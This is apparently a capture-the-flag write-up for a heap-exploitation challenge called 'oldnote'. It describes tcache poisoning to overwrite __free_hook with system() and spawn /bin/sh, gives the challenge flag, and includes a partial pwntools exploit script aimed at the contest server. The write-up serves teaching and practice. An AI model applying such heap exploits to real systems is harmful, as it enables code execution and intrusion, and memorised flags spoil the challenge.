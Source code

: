 We allocate some chunks to get an overlap with a tcache chunk, and then we write to a previously freed tcache chunk's fwd with `__free_hook`.

Then, we just tcache poison to write to `__free_hook` with `system()`, and free a chunk with `/bin/sh` in it.

Flag: `Poseidon{g00d_0ld_t1me_wh3n_tc4ch3_1s_571ll_cut3}`


### Script
```python
from pwn import *

e = ELF("./oldnote")
libc = ELF("./libc-2.26.so")
ld = ELF("./ld-2.26.so")

context.binary = e
context.terminal = ["konsole", "-e"]


while True:
    #p = process([ld.path, e.path], env={"LD_PRELOAD": libc.path})
    p = remote("poseidonchalls.westeurope.cloudapp.azure.com", 9000)


    #context.log_level="debug"
    #gdb.attach(p, """p stdout \n info addr main_arena""")
    
    def new(size, dat):
        p.sendlineafter(": ", "1")
        p.sendlineafter(": ", str(size))
        p.sendafter(": ", str(dat))


    def remove(idx):
        p.sendlineafter(": ", "2")
        p.sendlineafter(": ", str(idx))


    new(0x10, "A")
    new(0x10, "B")


    for i in range(0x90, 0xd1, 0x10):
        new(i, "i")
        remove(2)



    new(0xe0, "i"*0x30+p64(0x421)+p64(0xe0-0x32+3))



    remove(0)


    new(-1, "C"*0x18 + "\x21\x04")


    remove(1)
    
    
    # tcache for 0x20 is empty so get a chunk in there to pull later
    new(20, "A")
```